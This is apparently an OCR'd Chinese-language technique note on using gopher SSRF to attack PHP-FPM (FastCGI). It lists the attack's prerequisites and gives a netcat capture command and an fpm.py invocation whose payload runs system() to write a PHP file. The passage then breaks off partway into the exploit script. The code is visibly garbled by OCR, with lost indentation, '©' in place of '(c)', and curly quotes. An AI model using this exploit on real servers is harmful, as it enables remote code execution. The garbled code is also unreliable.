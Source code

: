 ```yaml
---
title: "gopher 攻击FastCGI"
id: zhfly3582
---
```


#### gopher 攻击FastCGI

利用条件

*   libcurl版本>=7.45.0(由于EXP里有%00，CURL版本小于7.45.0的版本，gopher的%00会被截断)
*   PHP-FPM监听端口
*   PHP-FPM版本 >= 5.3.3
*   知道服务器上任意一个php文件的绝对路径

转换为Gopher的EXP
监听一个端口的流量 `nc -lvvp 2333 > 1.txt`，执行EXP，流量打到2333端口

```
python fpm.py -c "<?php system('echo sectest > /tmp/1.php'); exit;?>" -p 2333 127.0.0.1 php文件绝对路径 
```

> fpm.py

```
import socket
import random
import argparse
import sys
from io import BytesIO

# Referrer: [https://github.com/wuyunfeng/Python-FastCGI-Client](https://github.com/wuyunfeng/Python-FastCGI-Client)

PY2 = True if sys.version_info.major == 2 else False

def bchr(i):

if PY2:

return force_bytes(chr(i))

else:

return bytes([i])

def bord©:

if isinstance(c, int):

return c

else:

return ord©

def force_bytes(s):

if isinstance(s, bytes):

return s

else:

return s.encode(‘utf-8’, ‘strict’)

```